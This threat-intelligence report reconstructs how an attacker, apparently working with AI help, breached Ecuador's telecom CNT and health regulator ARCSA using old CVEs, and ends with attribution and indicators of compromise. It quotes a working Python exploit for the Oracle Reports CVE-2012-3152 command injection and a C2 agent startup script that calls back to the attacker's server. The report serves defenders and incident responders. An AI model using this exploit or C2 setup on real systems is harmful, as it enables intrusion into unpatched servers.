

# When AI Resurrects Old CVEs: Reconstructing Ecuador's Two National Breaches




## ▌Overview

The FOFA-based engine Ferret, in collaboration with the GLM model, previously traced a South African attacker — but this was only one of many results from Ferret's ongoing monitoring efforts. During continuous mapping and attribution operations, Ferret recently captured a new attack trend: an attacker launched a temporary file server on a VPS using `python3 -m http.server` and forgot to shut it down, exposing 201 files — target lists, exploit scripts, credential hashes, and C2 configurations — to the public internet. From this exposure, Ferret reconstructed the complete attack chain from reconnaissance to C2 deployment.

The attacker is codenamed **mois** (derived from the registration email `mois****@gmail.com` hardcoded in their scripts). The attack on Ecuador's national telecom CNT started from the public-facing boundary, proceeding through vulnerability weaponization and credential harvesting, obtaining three sets of credential hashes from the border firewall, the authentication/billing server, and the anti-fraud system, and deploying a self-developed C2 framework. The attack on Ecuador's national health regulator ARCSA exploited an Oracle Reports server vulnerability to gain command execution, followed by internal reconnaissance. The attacker's Cloudflare account contains 53 registered domains, named after enterprise infrastructure categories such as Oracle, Zabbix, and CRL certificate validation; among them, `net-telemetry-lab[.]com` has been confirmed as used for DNS weaponized delivery. Account audit logs further show that all five operator login IPs belong to local Mexican residential/mobile networks, four of which are Telmex home broadband in the Monterrey metropolitan area — suggesting the attacker is likely based in Monterrey, Mexico.

**Worth noting: the attacker used no 0days. All vulnerabilities used were publicly disclosed years ago — CVE-2012-3152 (Oracle Reports), CVE-2017-14491 (dnsmasq), CVE-2018-14847 (MikroTik), CVE-2024-24919 (Check Point). Yet with AI assistance, these old CVEs became deadly weapons again, and two national-level institutions were breached. The role of AI is not only lowering the learning cost, trial-and-error cost, and production cost of exploitation — more critically, it reversed the asymmetry of coverage: AI can analyze every asset and every vulnerability one by one, tirelessly and exhaustively, while defenders' patching and testing resources remain limited — after patches are applied by priority, some old vulnerabilities on some assets will always be left behind.** In this case, the attacker was the beneficiary of exactly this exhaustive approach: turning hundreds of thousands of expired CVEs in the vulnerability database into ammunition, assembled into a complete attack chain — entry, persistence, reconnaissance, credential harvesting, C2 deployment, linked end to end.

## ▌Ecuador National Telecom CNT — Attack Line

The following is presented in the attacker's penetration order:

| Phase | Attack Action | Impact |
| --- | --- | --- |
| Public boundary reconnaissance | Check Point path traversal, subdomain enumeration, full port scan | Border firewall credential storage points attempted to be read; 40+ subdomains enumerated |
| dnsmasq overflow weaponization | CVE-2017-14491 exploit + Cloudflare DNS delegation | Overflow payload delivered to CNT mobile gateway |
| Three sets of credentials obtained | Check Point + RADIUS + Subex hash cracking | Credential hashes from the border firewall, national authentication/billing server, and internal anti-fraud BSS all obtained |
| Self-developed C2 Agent | Self-developed Go framework, development mode | Self-developed remote control framework ready; Agent ID directly named agent-cnt-01 |

### Public Boundary Reconnaissance

The attacker conducted systematic reconnaissance of CNT's public-facing boundary, first attempting CVE-2024-24919 path traversal on Check Point firewall 200.107.\*.\* (Ecuador), with a read list covering `/etc/shadow`, `.cpwd.db`, `masters`, `cp-users-pw.txt`, and registry hives — a complete list of all critical credential storage points on Check Point. The same technique was extended to six additional Check Point systems, while simultaneously verifying CVE-2018-14847 on MikroTik Winbox.


Meanwhile, the attacker resolved 40+ CNT subdomains (mail, vpn, intranet, billing, oss, bss, nms, etc.), enumerated certificate transparency subdomains via crt.sh, and performed full port scans on 200.107.\*.0/24 and 200.107.\*.0/24, searching for enterprise email server endpoints. This is systematic mapping of a known network architecture — the attacker clearly knew CNT uses Check Point for border protection, has VoIP telephony systems, and has access network CPE devices.

Attempts were also made against the VoIP telephony system (Issabel, a nine-step exploitation flow) and access network CPE devices (Huawei HG532e, MikroTik, ZTE, GoAhead), but the scripts contain no clear successful responses; these remain in the "attempting" stage and are not elaborated further.

### dnsmasq Overflow Weaponization Targeting the CNT Mobile Gateway

Multiple scripts show the attacker already held a foothold inside the CNT internal network at 10[.]161[.]71[.]168, though the workspace does not preserve how this foothold was obtained. From this foothold, the attacker discovered that the CNT mobile gateway at 10[.]161[.]71[.]81 was running dnsmasq-2.51 — an outdated DNS forwarding service affected by the known vulnerability CVE-2017-14491, a heap overflow triggered when processing excessively long CNAME record chains.

To make the CNT gateway actively query the attacker's server, the attacker registered and configured the domain `net-telemetry-lab[.]com` on Cloudflare (the script contains the API Key and the registration email `mois****@gmail.com`), pointing DNS queries for `d.net-telemetry-lab[.]com` to their own VPS at 165[.]22[.]46[.]51 (USA). When the CNT gateway's dnsmasq queries this subdomain, the request reaches the attacker, who returns a crafted, excessively long CNAME chain response to trigger the heap overflow.


### Three Sets of Credentials Obtained

The cracking scripts hardcode three sets of password hashes extracted from CNT systems, paired with a custom dictionary tailored to CNT containing passwords such as `cnt123`, `cnt2024`, `cnt2025`, `cnt2026`, `checkpoint`, and `Check@123`, cracked with john:

| Credential Set | Source System | Role in Telecom Infrastructure | Hash Format | Account Count |
| --- | --- | --- | --- | --- |
| Check Point admin | Border firewall (200.107.\*.\* Ecuador) | Public network ingress/egress control | md5crypt | 2 |
| RADIUS01 root/billing etc. | Authentication/billing server (200.107.\*.\* Ecuador) | National broadband/dial-up user authentication and billing hub | md5crypt | 4 |
| Subex tladmin/subex/oracle/nikira | Internal anti-fraud/revenue assurance database (172.17.222.126) | Carrier BSS core; not reachable from the public internet | DES | 4 |

The three credential sets correspond to three core layers of the telecom infrastructure: border control, authentication/billing, and internal BSS. The hashes are hardcoded in the scripts rather than captured in real time, indicating the attacker had obtained them at an earlier stage.


### Self-Developed C2 Framework

The attacker deployed a self-developed C2 remote control framework, internally codenamed RSA, with environment variables prefixed by `RSA_`. The startup script is as follows:

```bash
export RSA_SERVER_URL=http://165[.]22[.]46[.]51:8443
export RSA_AGENT_ID=agent-cnt-01
export RSA_TOKEN=********************
export RSA_DEPLOYMENT_MODE=development
nohup /tmp/svc_health > /tmp/agent.out 2>&1 &
```

The C2 identifier `agent-cnt-01` points directly to CNT. The process is disguised as `svc_health` (system health check), calling back to `http://165[.]22[.]46[.]51:8443` (USA). The communication token is 26 letters of the alphabet in order followed by 123456 — a placeholder-style weak password commonly seen in AI-generated configurations.

`svc_health` is a Go-compiled executable whose Go module is named `hdbcompileserver` (the name of an SAP HANA compile server component). However, the package paths and function names inside the binary — `command_journal` (command logging), `config_file` (configuration file), `credentials` (credential management), `dns_transport` (DNS transport) — are all C2 functionalities, with nothing to do with an SAP HANA compile server. The severe mismatch between the name and the content, combined with deliberate imitation of SAP version strings and path suffixes, makes the disguise intent nearly certain: to make reverse engineers who see the binary mistake it for an SAP software component. From the function names and environment variables extracted via strings, the framework's capabilities can be reconstructed as follows:

| Capability | Evidence | Description |
| --- | --- | --- |
| HTTP transport | `RSA_WS_URL`, `/dc/`, `/wt/`, `/dt/`, `/dl/` | Command dispatch, polling, data transfer, download |
| DNS tunneling | `RSA_DNS_SERVER`, `dnsRPCClient`, `dnsPacketExchange` | DNS as a backup transport channel |
| SOCKS5 proxy | `golang.org/x/net/proxy.SOCKS5` | Built-in proxy pivoting |
| File upload | `RSA_UPLOAD_DIR`, `RSA_UPLOAD_MAX_BYTES` | File exfiltration from targets |
| Command journal | `RSA_COMMAND_JOURNAL_MAX_BYTES`, `HDB-JOURNAL-v1` | Persistent logging of command execution |
| CI/CD attestation | `RSA_CI_EVIDENCE_PUBLIC_KEY`, `runtimeEvidenceAttestation` | Build attestation with Ed25519 public key verification |
| Production hardening | `RSA_RUN_IDENTITY_MODE=dedicated-service` | Production mode requires systemd cgroup isolation |

The complete Agent lifecycle: deliver to target → start as the `svc_health` process → call back to port 8443 → receive update payloads → exfiltrate data via `/tmp/.uploads`.


## ▌Ecuador National Health Regulator ARCSA — Attack Line

The following is presented in the attacker's penetration order:

| Phase | Attack Action | Impact |
| --- | --- | --- |
| Oracle Reports RCE | errfile parameter injection → CGI execution → persistence keepalive | Health regulator server compromised; Windows command execution obtained |
| Internal reconnaissance | Information gathering | AD domain arcsa.gob.ec confirmed; network connections, shares, and credential files collected |

### Oracle Reports RCE (CVE-2012-3152)

The target server, Oracle Reports Server (the core component of Oracle's enterprise reporting solution, primarily responsible for processing, scheduling, and distributing report requests), is named `rep_arcsa-oas_FRHome1`. The attacker exploited CVE-2012-3152 — an Oracle Reports errfile parameter injection vulnerability — using the `errfile` parameter of `rwservlet` to write a `.bat` batch file into the `C:\oracle\FRHome_1\Apache\Apache\cgi-bin\` directory. The `report` parameter was crafted as `x||echo Content-Type: text/plain&echo.&{cmd}&REM ||.rdf`, turning the error output file into an executable CGI script. After writing, accessing `/cgi-bin/{batname}` executes Windows commands and returns output. The core function is as follows:

```python
def run_cmd(cmd, batname):
    report_name = f"x||echo Content-Type: text/plain&echo.&{cmd}&REM ||.rdf"
    params = {
        'server': SERVER,
        'report': report_name,
        'destype': 'cache',
        'desformat': 'html',
        'errfile': f'{CGIDIR}\\{batname}'
    }
    requests.get(f"{ORACLE}/reports/rwservlet", params=params, verify=False, timeout=15)
    time.sleep(1)
    r = requests.get(f"{ORACLE}/cgi-bin/{batname}", verify=False, timeout=30)
    return r.text
```

The attacker then wrote files into the OC4J web directory (Oracle's Java application server, responsible for executing JSP and other dynamic pages) and the Apache htdocs directory (Apache HTTP Server's static file directory) to verify whether the written webshells were accessible over the web and executable. Among them, `svc_diag.jsp` returned HTTP 200, indicating that OC4J successfully compiled and executed the JSP. A persistence keepalive script periodically polls the HTTP status codes of these files to keep the persistence channel alive.

### Three-Phase Internal Reconnaissance

After confirming command execution, the attacker launched three progressive phases of internal reconnaissance from the ARCSA server. Phase 1 collected basic information: network configuration, ARP tables, user lists, process lists, and reading Oracle's `tnsnames.ora` database connection configuration. Phase 2 shifted to domain information and shares: hostnames, DNS cache, shared directories, session connections, and scheduled tasks. Phase 3 went deeper into network connections and credential files: confirming ARCSA's Active Directory domain as `arcsa.gob.ec` via `nltest`, and reading `cgicmd.dat` — the Oracle Reports command mapping file.


## ▌Attacker Attribution

Multiple identity clues can be extracted from the workspace:

| Dimension | Clue | Description |
| --- | --- | --- |
| Email | `mois****@gmail.com` | Hardcoded in the Cloudflare configuration script `cf.sh`, used to register the DNS weaponization domain |
| Cloudflare account | Created 2026-02-07 | API Key still valid; 53 domains registered under the account |
| GitHub | `mois****` | Empty account, 0 repos, 0 followers |
| VPS | 165[.]22[.]46[.]51 (USA) | File server, C2 callback, and DNS delivery all point to this IP |
| Domain | `net-telemetry-lab[.]com` (2026-07-23) | DNS weaponization domain |

By calling the audit log API with the Cloudflare API Key, all operator login IPs were extracted — five in total, all belonging to Mexican ISPs:

| IP | Location | Network Type | Active Period |
| --- | --- | --- | --- |
| 187.209.122[.]250 | Monterrey metropolitan area, Mexico | Telmex home broadband | 2026-07-18 ~ 07-23 |
| 200.68.165[.]19 | Mexico City | Telcel mobile network | 2026-07-30 ~ 07-31 |
| 189.159.102[.]190 | Monterrey metropolitan area, Mexico | Telmex home broadband | 2026-08-05 ~ 08-09 |
| 187.209.122[.]127 | Monterrey metropolitan area, Mexico | Telmex home broadband | 2026-08-06 ~ 08-20 |
| 189.159.130[.]180 | Monterrey metropolitan area, Mexico | Telmex home broadband | 2026-09-04 |

All five login IPs fall within Mexican local residential/mobile networks (four of them on home broadband in the Monterrey metropolitan area, spanning multiple sessions over six weeks), and the operating hours match nighttime in the Monterrey timezone — suggesting a high probability that the attacker is based in the Monterrey area of Mexico.


Querying with the Cloudflare API Key shows that 53 domains were registered under this account, continuously from 2026-02 to 2026-08, spanning half a year. Categorized by naming pattern:

- Oracle-related (`orapatchsync[.]com`, `oracleservicesupd[.]com`, `ol8-repo[.]com`, `oraaboraservices[.]com`, etc., 18 domains) — Oracle is an enterprise database and application server vendor; these domains imitate naming for Oracle patch sync, update sources, and similar services
- Monitoring-related (`cdn-zabbix[].]com`, `zabbix-repo-mx[.]com`, etc., 6 domains) — Zabbix is an open-source enterprise monitoring system
- Certificate revocation (`crldigicert[.]com`, `crl-validation[.]com`) — CRL (Certificate Revocation List) is the endpoint that browsers and operating systems request when verifying whether an SSL certificate has been revoked; DigiCert is a major global certificate authority
- Telemetry-related (`net-telemetry-lab[.]com`, `cbio-telemetry[.]com`, `dataflow-metrics[.]com`, etc., 6 domains) — Names imitating network telemetry and metrics reporting services

Among these, `net-telemetry-lab[.]com` has been confirmed as used for DNS weaponized delivery in this CNT attack; the actual purpose of the remaining 52 domains is unknown. Full domain list:


## ▌AI-Assisted Attack Characteristics

The traces of AI involvement in these files are evident and can be summarized into five characteristics:

- **High-frequency iterative naming**: The exploit for the same vulnerability went through at least 8 version iterations (v2 → v3 → v4 → v5 → cname → cname_v2 → v3 → final → prod_final). This iteration density does not look like one-time manual writing, but more like rapid trial-and-error under AI assistance.
- **Verbose configuration items**: Environment variable names like `RSA_ALLOW_LEGACY_GLOBAL_TOKEN` carry redundant compatibility switches — a typical product of LLM-generated configuration, where the model tends to exhaustively enumerate all possible switches rather than minimize.
- **Placeholder-style weak passwords**: The C2 communication token is a keyboard sequence (26 letters in alphabetical order followed by 123456) — a common placeholder-style trait in LLM-generated configuration, where the model fills in a string that "looks like a password" rather than designing a genuinely secure credential.
- **Reasoning-style comments**: Scripts contain comments such as "If dnsmasq crashes, next query will timeout" that write expected behavior and judgment logic into the script — a report-like style uncommon in manually written exploits, more consistent with AI outputting its reasoning process while generating code.
- **Cross-product checklist coverage**: Exploit scripts for Issabel, Huawei, MikroTik, Ollama, GeoServer, Webmin, Redis, and GoAhead appear simultaneously. Such broad coverage looks more like an AI-generated attack checklist based on target environment information than manual research conducted product by product.

This is the same trend observed at the opposite end of the Neo incident captured by the Ferret engine. In the Neo case, a South African attacker delegated decision-making to an Agent, and the Agent's autonomous operations ultimately exposed the entire workspace. In this sample, the attacker delegated productivity to AI: mass-produced scripts, rapid rewriting, and parallel operation of multiple attack lines. Without relying on 0days, an attacker can now expand coverage at lower cost — and the faster the operational tempo, the more frequently temporary infrastructure is created and discarded, and the higher the probability of low-level oversights such as "forgetting to shut down the file server."


## ▌IOC

| Type | IOC | Description |
| --- | --- | --- |
| IP | 165.22.46[.]51 | Attacker VPS (9999 / 8443 / 53) |
| IP | 10.161.71[.]168 | Attacker foothold inside CNT internal network |
| IP | 187.209.122[.]250 | Operator login IP (Monterrey, Mexico, Telmex broadband) |
| IP | 187.209.122[.]127 | Operator login IP (Monterrey, Mexico, Telmex broadband) |
| IP | 189.159.102[.]190 | Operator login IP (Santa Catarina, Mexico, Telmex broadband) |
| IP | 189.159.130[.]180 | Operator login IP (San Pedro Garza García, Mexico, Telmex broadband) |
| IP | 200.68.165[.]19 | Operator login IP (Mexico City, Telcel mobile network) |
| Domain | net-telemetry-lab[.]com | DNS weaponization domain (Cloudflare delegation) |
| Domain | d.net-telemetry-lab[.]com | DNS attack subdomain (NS delegation target) |
| Domain | apigobservices[.]com | Domain under the Cloudflare account |
| Domain | cbio-telemetry[.]com | Domain under the Cloudflare account |
| Domain | cdn-zabbix[.]com | Domain under the Cloudflare account |
| Domain | cloudsync-metrics[.]com | Domain under the Cloudflare account |
| Domain | crldigicert[.]com | Domain under the Cloudflare account |
| Domain | crl-validation[.]com | Domain under the Cloudflare account |
| Domain | dataflow-metrics[.]com | Domain under the Cloudflare account |
| Domain | dbm-tel[.]com | Domain under the Cloudflare account |
| Domain | eventlogr[.]com | Domain under the Cloudflare account |
| Domain | evonetr5-api[.]com | Domain under the Cloudflare account |
| Domain | grdaboraservices[.]com | Domain under the Cloudflare account |
| Domain | hwcloudces[.]com | Domain under the Cloudflare account |
| Domain | ldmaboraservices[.]com | Domain under the Cloudflare account |
| Domain | ldom-diag-api[.]com | Domain under the Cloudflare account |
| Domain | medoxaintelligenceapi[.]com | Domain under the Cloudflare account |
| Domain | medoxaintelligence[.]com | Domain under the Cloudflare account |
| Domain | ncc-update[.]com | Domain under the Cloudflare account |
| Domain | nmscloudservices[.]com | Domain under the Cloudflare account |
| Domain | nsraboraservices[.]com | Domain under the Cloudflare account |
| Domain | nsr-cloudrelay[.]com | Domain under the Cloudflare account |
| Domain | ntnxeraupd[.]com | Domain under the Cloudflare account |
| Domain | ntnxeraupds[.]com | Domain under the Cloudflare account |
| Domain | nutanixsync[.]com | Domain under the Cloudflare account |
| Domain | oem-telemetrics[.]com | Domain under the Cloudflare account |
| Domain | ol8-repo[.]com | Domain under the Cloudflare account |
| Domain | olrepo-cdn[.]com | Domain under the Cloudflare account |
| Domain | openbaoservices[.]com | Domain under the Cloudflare account |
| Domain | oraaboraservices[.]com | Domain under the Cloudflare account |
| Domain | oracleservicesupd[.]com | Domain under the Cloudflare account |
| Domain | ora-patchrelay[.]com | Domain under the Cloudflare account |
| Domain | orapatchsvc[.]com | Domain under the Cloudflare account |
| Domain | orapatchsync[.]com | Domain under the Cloudflare account |
| Domain | orapatchsyncs[.]com | Domain under the Cloudflare account |
| Domain | packagist-mirror[.]com | Domain under the Cloudflare account |
| Domain | ppaboraservices[.]com | Domain under the Cloudflare account |
| Domain | radius-sync[.]com | Domain under the Cloudflare account |
| Domain | rhsatcfg[.]com | Domain under the Cloudflare account |
| Domain | rhscl-telemetry[.]com | Domain under the Cloudflare account |
| Domain | sap-lcm[.]com | Domain under the Cloudflare account |
| Domain | sitaboraservices[.]com | Domain under the Cloudflare account |
| Domain | smt-update[.]com | Domain under the Cloudflare account |
| Domain | sqlaboraservices[.]com | Domain under the Cloudflare account |
| Domain | statsrelay[.]com | Domain under the Cloudflare account |
| Domain | sunaboraservices[.]com | Domain under the Cloudflare account |
| Domain | sun-svcgateway[.]com | Domain under the Cloudflare account |
| Domain | syncrell[.]com | Domain under the Cloudflare account |
| Domain | tim-updates[.]com | Domain under the Cloudflare account |
| Domain | vntaboraservices[.]com | Domain under the Cloudflare account |
| Domain | waboraservices[.]com | Domain under the Cloudflare account |
| Domain | winlogservice[.]com | Domain under the Cloudflare account |
| Domain | winupd64[.]com | Domain under the Cloudflare account |
| Domain | zabbix-repo-mx[.]com | Domain under the Cloudflare account |


## ▌Conclusion

This case reconstructs a complete attack chain: the attacker used publicly known N-day vulnerabilities, mass-producing exploit scripts with AI assistance, and successively breached two national-level institutions in Ecuador. A temporary file server left open recorded all of it, turning the exposure into a ready-made piece of threat intelligence.

In Ferret's long-term monitoring, this case is not an isolated one: **among captured attackers, the vast majority use N-day vulnerabilities rather than 0days.** The reason is straightforward — there is a massive volume of long-unpatched legacy assets on the internet, giving N-days higher hit rates at lower cost. The spread of AI is further amplifying this trend: when the cost of generating and debugging exploit scripts approaches zero, the hundreds of thousands of expired CVEs in vulnerability databases all become ready-made ammunition. For defenders, rather than concentrating resources on chasing the latest 0day intelligence, it is more urgent to address a more fundamental problem — the N-days that have existed for years, with patches released long ago, yet never applied; those are the gaps that are actually being breached.
